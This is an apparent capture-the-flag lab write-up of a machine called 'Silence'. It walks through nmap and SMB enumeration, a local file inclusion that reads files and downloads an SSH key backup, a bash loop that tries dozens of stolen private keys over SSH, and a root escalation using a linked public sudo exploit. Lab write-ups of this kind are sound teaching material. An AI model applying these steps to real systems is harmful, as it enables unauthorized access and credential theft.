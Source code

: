 # **Silence**

***
![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/97b510aa-62b6-452a-870d-54a1b724d1c3)

## **Difficulty = Medium**
***

Running our nmap scan we have this -:


```bash
# Nmap 7.94 scan initiated Mon Nov 20 21:00:15 2023 as: nmap -sCV -p21,80,139,445,1055 -T4 -oN nmap.txt --min-rate=1000 -v 10.150.150.55
Nmap scan report for 10.150.150.55
Host is up (0.18s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.66.66.34
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              13 Jun 12  2020 test
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
1055/tcp open  ssh         OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| nbstat: NetBIOS name: UBUNTU, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   UBUNTU<00>           Flags: <unique><active>
|   UBUNTU<03>           Flags: <unique><active>
|   UBUNTU<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-11-20T20:33:58
|_  start_date: N/A
|_clock-skew: 33m23s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 20 21:00:40 2023 -- 1 IP address (1 host up) scanned in 24.46 seconds
```



We truly do have anonymous access to the `FTP` protocol



![](https://i.imgur.com/dmWBMK7.png)


Enumerating this service we only have one file called `test`



![](https://i.imgur.com/HFJvuU1.png)




Concatenating the `test` file we have this message 😂


![](https://i.imgur.com/Y45xb3V.png)



Enumerating the protocol `SMB` we have 2 shares


![](https://i.imgur.com/rUtXEKe.png)



We don't have read access to the `IPC$` share, neither can we connect to the `print$` share


![](https://i.imgur.com/0QFbcR5.png)


Navigating to the `HTTP` protocol we have this default apache2 web page


![](https://i.imgur.com/CsjvOLR.png)


Viewing-page source doesn't  have any useful information so i decided to run a directory bruteforce using the tool `dirsearch`


![](https://i.imgur.com/OnWzgIw.png)

Navigating to `/info.php` we have this PHP info page which leads to nothing


![](https://i.imgur.com/x5FkFpi.png)



Navigating to `/index.php` gives us this file search site


![](https://i.imgur.com/R4Pef0L.png)



Fuzzing users with `enum4linux` also gave us this


![](https://i.imgur.com/T6YQeOV.png)


Enumerated all along and found out that we need to test out various parameter on the `/index.php` page, finally `?path=/` worked


![](https://i.imgur.com/ZeYboUl.png)


One thing i noticed is that all users `/home/users/.ssh` directory has a listing like `/var/www/html` and most of the files we found when doing directory bruteforce where here


![](https://i.imgur.com/WRJpaAm.png)


Navigating to `/var/www/html` we now have all files and directory we did not find using `dirsearch` here


![](https://i.imgur.com/oNtt3J8.png)



Navigating to `/trick.php?page=LFI_PAYLOAD`, we where able to get `LFI`

![](https://i.imgur.com/rmyd3uq.png)

So 2 parameters are valid which are `path` and `page`, Navigating back to our `/home` directory i found a backup file on user **sally's** home directory


![](https://i.imgur.com/BXfIG4C.png)



We can then go ahead and download the file using wget on `/trick.php` then decompress it

```bash
wget http://10.150.150.55/trick.php?page=/home/sally/backup/SSHArchiveBackup.tar.gz
```


![](https://i.imgur.com/9AE17Px.png)


Navigating to the `private` folder we decompressed, we have this huge list of `id_rsa` files


![](https://i.imgur.com/RTvvDJW.png)


Well we can use a **for loop** in bash to make connections through all of this `id_rsa` files, and then when it finds one, it logs in automatically


```bash
$ chmod 600 id_rsa*
$ for key in ./id_rsa*; do ssh -o BatchMode=yes -i "$key" sally@10.150.150.55 -p 1055 || true; done
```

We got shell as user `sally` after all, 70th attempt 🥱

```bash
 $ ssh -i id_rsa70 sally@10.150.150.55 -p 1055
```


![](https://i.imgur.com/HjnHTNl.png)


> In this command, the `-o BatchMode=yes` option tells `ssh` to operate in batch mode, meaning it won't prompt for passwords or passphrases. The `|| true` at the end ensures that the loop continues even if the `ssh` command fails (for example, if the key is not valid). It prevents the loop from stopping prematurely due to a failed `ssh` command.

## **Privilege Escalation**

Checking the version of `sudo`, we have an outdated sudo version vulnerable to 


![](https://i.imgur.com/gfQADE7.png)


We can get an exploit from [here](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit/tree/main) and transfer it to user **sally's** home folder since `/tmp` does not allow us to execute binaries


![](https://i.imgur.com/MEiDwAz.png)



Run the following command to get user **root**

```bash
$ make
$ ./exploit
```


![](https://i.imgur.com/suLM00m.png)


## **Things i Learnt**

- Always try out different parameters on URL if nothing shows up on enumeration
- Look deeper, it is not always about "**lateral movement**" (I thought we would switch to users since we have multiple users, but it turned out the other way around 😂)


That will be all for today, Have a nice week 👨‍💻



![](https://i.pinimg.com/originals/79/7f/34/797f347cc1b437839cd21b44aa6fde96.gif)



<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>




